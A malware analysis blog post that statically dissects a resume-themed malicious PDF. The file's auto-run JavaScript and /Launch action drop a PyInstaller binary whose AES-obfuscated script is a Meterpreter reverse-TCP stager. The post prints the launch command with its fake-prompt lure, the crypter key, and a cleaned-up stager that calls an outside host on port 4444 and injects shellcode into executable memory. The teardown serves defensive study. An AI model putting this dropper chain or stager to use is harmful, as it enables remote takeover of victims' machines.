

# Anatomy of a malicious PDF: from `/OpenAction` to a Meterpreter reverse shell

*A resume-themed PDF lands in the lab. Six layers later it is a Python stager calling home on port 4444, and I never once opened the file.*

---



A file called `evil.pdf` showed up in my analysis directory, 3.6 MB, themed as a resume. The name is a hint, not a verdict, so I treated it the way I treat anything that arrives on disk: untrusted data, analyzed statically, never rendered and never run. What follows is the full unwrap, from the first keyword scan to the deobfuscated payload. It is six layers deep and ends at a reverse shell. Every command and output block here is real, pulled from the session. The one-liner decryptor is in this repo.

## TL;DR

`evil.pdf` is a weaponized dropper. A two-page decoy document hides an auto-execute chain: an `/OpenAction` JavaScript writes an embedded file to disk, a crafted `/Launch` action runs it through a reskinned Adobe warning, and the "embedded PDF" is really a Windows PE. That PE is a PyInstaller-packed Python 2.7 app whose entry script is obfuscated with the *pyherion* crypter, which turns out to be AES-256-ECB with the key sitting in plaintext one line above the ciphertext. Decrypt it and you get a Metasploit `python/meterpreter/reverse_tcp` stager that dials `timsalvador.com:4444` and runs second-stage shellcode from RWX memory.

The whole analysis is static. The two tools that mattered were plain shell (`file`, `grep`, a little Python) for the PDF layer and [REA](https://github.com/morluto/rea) for unpacking the PyInstaller archive.

| Layer | What it is | How I got through it |
|---|---|---|
| 1. PDF document | `/OpenAction` + `/AA` + `/Launch` | keyword scan, object dump |
| 2. `/Launch` action | `cmd.exe` + fake prompt | read the action string |
| 3. Embedded "PDF" | zlib stream → Windows PE | `zlib.decompress`, check magic |
| 4. PE | PyInstaller / Python 2.7 | REA `inspect_artifact` |
| 5. Entry script | pyherion crypter (AES-256-ECB) | key was in cleartext |
| 6. Payload | Meterpreter reverse_tcp stager | decrypt, read, done |

This writeup is both the story and a runbook. The decryptor script is at the end.

---

## The setup

- **Host:** Linux analysis box, CLI-first, no Windows in the loop
- **Target:** `evil.pdf`, 3,598,502 bytes, SHA-256 `bce5092d...4733d0`
- **Goal:** identify what the file does, end to end, without executing any of it
- **Constraints:** static only. The PDF is never opened in a reader; the PE is never run; the final stager is decrypted, not `exec`'d.

Malicious PDFs are an old technique, but this sample is a good teaching case because it stacks six different tricks on top of each other, and each layer uses a different evasion. You peel it, not crack it.

---

## Act 1: The keyword trifecta

First question for any PDF: what active content does it declare? A PDF is a structured object graph, and the dangerous verbs are a known set. I scanned for all of them at once.

```bash
for k in /JavaScript /JS /OpenAction /AA /Launch /EmbeddedFile /URI /ObjStm; do
  printf "%-16s %s\n" "$k" "$(grep -a -o "$k" evil.pdf | wc -l)"
done
```

```
/JavaScript      1
/JS              1
/OpenAction      1
/AA              1
/Launch          1
/EmbeddedFile    1
/URI             0
/ObjStm          0
```

That is the full combo in one object cluster. `/OpenAction` and `/AA` (additional actions) both fire automatically when the document opens. `/JavaScript` and `/Launch` are the two things they can fire. `/EmbeddedFile` means the document is carrying a payload. You rarely see a benign file hold all five.

**Lesson #1:** Triage a container format by its declared capabilities before you read a byte of content. The presence set (auto-trigger plus code action plus embedded payload) classifies the sample faster than any single string, and it tells you which objects to read next.

---

## Act 2: The `/Launch` trick and the fake prompt

I pulled the action objects directly. The catalog wires `/OpenAction` to object 52 and the page's additional-action `/O` (on-open) to object 53.

```bash
python3 -I -c "
d=open('evil.pdf','rb').read()
for m in [b'52 0 obj', b'53 0 obj']:
    i=d.find(m); print(d[i:i+420].decode('latin-1')); print()
"
```

```
52 0 obj<</S/JavaScript/JS(this.exportDataObject({ cName:
"TimSalvador-Resume-Current", nLaunch: 0 });)/Type/Action>>

53 0 obj<</S/Launch/Type/Action/Win<</F(cmd.exe)/D(c:\windows\system32)
/P(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist
"Desktop\TimSalvador-Resume-Current.pdf" (cd "Desktop"))& ...
&(start TimSalvador-Resume-Current.pdf)
... To view the encrypted content please tick the
"Do not show this message again" box and press Open.)>>>>
```

Two things are doing work here. Object 52's JavaScript calls `exportDataObject`, which writes the embedded file out of the PDF and onto disk. Object 53 then launches `cmd.exe` with a script that walks the usual user folders (Desktop, My Documents, and the Spanish `Escritorio` and `Mis Documentos`, so the author expected Spanish-locale victims too) and `start`s the dropped file.

The clever part is the trailing text. Adobe shows a security warning before any `/Launch` action runs. This action's parameter string is written to look like part of that dialog: *"To view the encrypted content please tick the Do not show this message again box and press Open."* The attacker cannot remove the warning, so they social-engineer the user through it.

**Lesson #2:** A `/Launch` action's command string is also an attack on the human. When the operator cannot suppress a security prompt, they write their payload text to blend into it. Read the full parameter, not just the executable name, because the persuasion lives in the tail.

---

## Act 3: The embedded PDF that is not a PDF

Object 50 is the file-spec; it names the attachment `TimSalvador-Resume-Current.pdf` and declares its subtype `application/pdf`. Object 51 is the stream itself: a `FlateDecode` (zlib) blob with a declared decompressed length of ~3.5 MB. I decompressed it and checked what actually came out.

```bash
python3 -I -c "
import zlib, hashlib
d=open('evil.pdf','rb').read()
i=d.find(b'51 0 obj'); j=d.find(b'stream',i)+6
while d[j] in (13,10): j+=1
out=zlib.decompress(d[j:j+3455680])
print('header:', out[:16])
print('tail:', out[-32:])
print('sha256:', hashlib.sha256(out).hexdigest())
"
```

```
header: b'MZ\x90\x00\x03\x00\x00\x00\x04\x00\x00\x00\xff\xff\x00\x00'
tail: b'est\x00\x00\x00\x00\x00MEI\x0c\x0b\n\x0b\x0e\x003PF...'
sha256: f82a8cabf69ec8c68035358d1e058dfe611911d020e2772afc04adc7f089c445
```

The declared `application/pdf` is a lie. The decompressed bytes start with `MZ`: a Windows executable. And the tail carries `MEI\x0c\x0b\n\x0b\x0e`, which is the PyInstaller CArchive magic cookie. So the "resume PDF" the victim double-clicks is a PyInstaller-packed Windows binary.

**Lesson #3:** The declared type of an embedded object is attacker-controlled metadata. Decompress first, then identify by magic bytes. A `/Subtype/application#2Fpdf` costs the author nothing and buys them a victim who thinks they are opening a document.

---

## Act 4: Unpacking the PyInstaller archive with REA

A PyInstaller executable is really two things glued together: a native bootloader and an appended archive holding the Python runtime, the frozen modules, and the entry script. I wanted the archive contents, so I handed the carved PE to [REA](https://github.com/morluto/rea), which reads the CArchive structure directly.

REA identified it as `pyinstaller`, Python 2.7, layout 2.0, 22 entries plus one PYZ. The entry list is where it got interesting:

```
Crypto.Cipher._AES.pyd      29184   pe
_hashlib.pyd               358400   pe
_socket.pyd                 44544   pe
_ssl.pyd                   899072   pe
bz2.pyd                     68608   pe
python27.dll              2448384   pe
out00-PYZ.pyz              674462   (opaque)
withpyherion                 2768   file   <- entry script
withpyherion.exe.manifest      737   file
```

The bundled modules tell a story on their own: AES, `_socket`, `_ssl`, `_hashlib`, `bz2`. Crypto, networking, and compression are exactly what a remote-access tool needs and exactly what a real resume viewer does not. And the entry script is named `withpyherion`. *pyherion* is a known Python crypter, so the sample is announcing its own obfuscation in a filename.

I extracted the entries and read the strings out of the 2,768-byte entry script.

```
from Crypto.Cipher import AES as Cyeqj; import struct, socket,
binascii, ctypes, random, time; from base64 import b64decode as cYwdK
exec(cYwdK("ZXhlYyhDeWVxai5uZXcoImdQeHV7c2lLNTRGW05rWEdzKjlSRXVQ..."))
```

A base64 blob passed straight to `exec`. That is layer five.

**Lesson #4:** Let a format-aware tool parse the container so you can reason about the inventory instead of the bytes. The module list of a packed binary is a behavioral fingerprint: crypto plus sockets plus an obfuscated entry point is a RAT until proven otherwise, before you decompile a single function.

---

## Act 5: pyherion, or how to hide a key in plain sight

The outer base64 decodes to a second line of Python, and that is where the crypter shows its hand.

```python
exec( Cyeqj.new("gPxu{siK54F[NkXGs*9REuP|KDhfgD]e")
        .decrypt(cYwdK("n1q/sQp8/UaPpnjLza...")).rstrip('{') )
```

`Cyeqj` is the aliased `AES`. `AES.new(key)` with no mode argument in PyCrypto is ECB. The key is `gPxu{siK54F[NkXGs*9REuP|KDhfgD]e`, 32 bytes, so AES-256. It is a string literal sitting one method call away from the ciphertext it decrypts. The entire crypter reduces to: base64-decode, AES-256-ECB decrypt with an embedded key, strip a padding brace, `exec`.

So I did everything except the `exec`. Decrypting is reading; running is not, and I only wanted to read.

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
key = b"gPxu{siK54F[NkXGs*9REuP|KDhfgD]e"
ct  = base64.b64decode(ct_b64)          # 1408 bytes, a multiple of 16
dec = Cipher(algorithms.AES(key), modes.ECB()).decryptor()
src = (dec.update(ct) + dec.finalize()).rstrip(b'{')
print(src.decode())                      # the real payload, as source
```

**Lesson #5:** A crypter that ships its own key is not encryption, it is encoding with extra steps. It defeats a naive string scan and an antivirus signature, but it cannot survive someone reading the stub, because the stub has to hand the key to the cipher at runtime. Deobfuscation here is decryption, and decryption is a read, so there is never a reason to execute the sample to see inside it.

---

## Act 6: The payload

The decrypted source is small, and it is unambiguous. Variable names are randomized, but the structure is a textbook staged reverse shell. Cleaned up with the names kept:

```python
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('timsalvador.com', 4444))        # C2
    l = struct.unpack('<i', s.recv(4))[0]        # stage length, 4-byte LE
    buf = recv_n(s, l)                           # 2nd-stage shellcode
    buf[0] = '\xBF'                              # mov edi, <fd>
    splice(socket_fd)                            # reuse the live socket
    return buf

def inject(sc):
    p = kernel32.VirtualAlloc(0, len(sc), 0x3000, 0x40)  # MEM_COMMIT, RWX
    kernel32.RtlMoveMemory(p, sc, len(sc))
    h = kernel32.CreateThread(0, 0, p, 0, 0, 0)          # execute
    kernel32.WaitForSingleObject(h, -1)

inject(connect())
```

This is the Metasploit `python/meterpreter/reverse_tcp` pattern, and every detail matches. Port 4444 is the framework default. The code reads a 4-byte little-endian length and then pulls exactly that many bytes, which is the Meterpreter staging protocol. The `\xBF` byte it writes over the start of the buffer is the opcode for `mov edi, imm32`, and the socket file descriptor is patched in right after it, so the second stage inherits the already-open connection instead of dialing out again. Then the classic injection: `VirtualAlloc` with `0x40` (`PAGE_EXECUTE_READWRITE`), copy the shellcode in, run it on a new thread.

The `timsalvador.com` C2 and the resume theme match my own domain, so this is a red-team or training sample rather than something caught in the wild. It is still fully functional; the only missing piece is a listener on the other end.

**Lesson #6:** You can identify a staged payload by its wire protocol and its syscall sequence even when you never see the stage it downloads. A 4-byte length prefix, a socket-reuse splice, and a `VirtualAlloc(RWX)` then `CreateThread` tail are a fingerprint. Name the family from the stager; you do not need the stage.

---

## The architecture

```
evil.pdf  (3.6 MB, 2-page decoy)
   |
   |  /OpenAction (obj 52, JavaScript)    writes attachment to disk
   |  /AA /O      (obj 53, /Launch)       cmd.exe + reskinned Adobe prompt
   v
TimSalvador-Resume-Current.pdf  (dropped)
   |  declared application/pdf  ->  actually a Windows PE
   v
PyInstaller archive  (Python 2.7, 22 entries + PYZ)
   |  entry script: withpyherion
   v
pyherion crypter   base64 -> AES-256-ECB (key in cleartext) -> exec
   v
Meterpreter stager   connect timsalvador.com:4444
                     recv 4-byte length -> recv shellcode
                     VirtualAlloc(RWX) -> CreateThread -> run
```

---

## Indicators of compromise

| Type | Indicator |
|---|---|
| C2 | `timsalvador.com` : `4444` (reverse TCP) |
| Dropped file | `TimSalvador-Resume-Current.pdf` (a PE, not a PDF) |
| Dropper SHA-256 | `bce5092d06cb8b97f7a0fd5038a8ad46e668e295559d8c76c2ddb6e21c4733d0` |
| Payload SHA-256 | `f82a8cabf69ec8c68035358d1e058dfe611911d020e2772afc04adc7f089c445` |
| pyherion AES key | `gPxu{siK54F[NkXGs*9REuP|KDhfgD]e` (AES-256-ECB) |
| Build metadata | Foxit Reader PDF Printer 6.0.3, CreationDate D:20130620 |

ATT&CK: T1566.001 (spearphishing attachment), T1204.002 (malicious file), T1059 (command execution), T1055 (process injection), T1027 (obfuscated files), T1571 (non-standard port).

---

## The gotchas that cost me time (collected)

**The embedded stream length is declared, and the keyword grep lies about object count.** `grep -c` counts matching lines, and this PDF has almost no newlines, so `stream`/`endstream` counts came back uneven and useless. I switched to locating objects by byte offset in Python and slicing the stream using the `/Length` value from the object dictionary, which is exact.

**`AES.new(key)` with no mode is ECB, and that is a tell by itself.** When I saw the single-argument constructor I knew the mode before I tested it. ECB needs no IV, which is why the crypter can get away with a bare key and a single literal. It also means the ciphertext length is a clean multiple of 16, a quick sanity check before you commit to a decrypt.

**The PYZ stayed opaque, and that is fine.** REA left `out00-PYZ.pyz` unparsed because its Python magic was outside the supported set. The entry script was the whole payload, so the frozen module archive did not matter here. Knowing when a layer is irrelevant is as useful as cracking it.

---

## The scripts

```
weaponized-pdf-teardown/
  scripts/
    decrypt_pyherion.py     # standalone: carve -> decompress -> AES decrypt, no exec
  docs/
    writeup.md
```

`decrypt_pyherion.py` is the one tool worth keeping. It takes the PDF, pulls the embedded stream by offset and declared length, decompresses it, locates the pyherion stub, extracts the key and ciphertext with a regex, and prints the decrypted source. It never calls `exec`, never writes the PE anywhere executable, and never touches the network. Everything the post describes, it reproduces in one run.

---

## Would I do this static-only again?

Yes, without hesitation.

**Good at:** safety and completeness. I identified the family, the C2, the key, and the full chain without a sandbox, a VM, or a single executed instruction. Nothing could beacon, because nothing ran.

**Bad at:** the second stage. Static analysis ends at the stager; the actual Meterpreter stage lives on the listener, which was not up. If I needed the post-exploitation behavior, I would stand up a controlled listener and capture what it serves, on an isolated network.

The through-line across all six layers is the same: every obfuscation step has to undo itself at runtime to work, which means the instructions to undo it are right there in the sample. A `/Launch` action has to name its command. A crypter has to hand its key to the cipher. A stager has to encode its own wire protocol. You do not defeat these layers so much as read them in order, and you never have to run the thing to do it. "Analyze, do not execute" is not a limitation on this kind of work. It is the whole method.

---

*Companion repo with the standalone decryptor: [github.com/tim-salvador/weaponized-pdf-teardown](https://github.com/tim-salvador/weaponized-pdf-teardown). Questions or corrections welcome.*

*Tim Salvador · [timsalvador.com/blog/weaponized-pdf-teardown](https://www.timsalvador.com/blog/weaponized-pdf-teardown/) · [github.com/tim-salvador](https://github.com/tim-salvador) · [linkedin.com/in/tim-salvador](https://linkedin.com/in/tim-salvador)*
